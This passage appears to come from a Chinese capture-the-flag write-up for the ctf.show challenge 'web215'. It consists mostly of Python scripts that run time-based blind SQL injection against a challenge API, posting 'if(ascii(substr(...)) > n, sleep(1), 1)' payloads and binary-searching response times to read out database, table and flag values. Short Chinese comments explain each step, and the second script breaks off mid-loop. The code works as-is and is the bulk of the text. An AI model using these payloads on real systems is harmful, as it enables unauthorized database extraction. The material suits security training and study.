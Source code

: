 ```python
            'ip' : "1 or if(ascii(substr(({}), {}, 1)) > {}, sleep(1), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间

        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web215（时间盲注）
思路同上，这个题payload要闭合单引号
```python
'''
Author: KonDream
Date: 2021-12-16 00:59:13
LastEditors:  KonDream
LastEditTime: 2021-12-16 01:02:36
Description:  
'''
import requests

url = "http://deb6375d-362d-49f7-8626-00484b436b5a.challenge.ctf.show/api/index.php"

flag = '' 
# 爆数据库名 ctfshow_flagxc,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaa,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxc'"
# 爆字段
payload = "select flagaa from ctfshow_flagxc"

for i in range(1, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break

        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1' or if(ascii(substr(({}), {}, 1)) > {}, sleep(1), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间

        if r > 1: #响应时间超过1s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
```